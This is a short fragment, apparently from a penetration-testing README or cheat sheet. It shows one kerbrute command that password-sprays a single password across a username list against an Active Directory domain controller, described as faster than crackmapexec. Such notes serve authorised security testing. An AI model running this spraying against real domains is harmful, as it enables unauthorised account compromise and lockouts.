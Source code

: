 Faster than crackmapexec and target only the DC

```shell
./kerbrute_linux_amd64 passwordspray -d domain.com --dc 10.0.0.1 usernames.txt 'password'
```
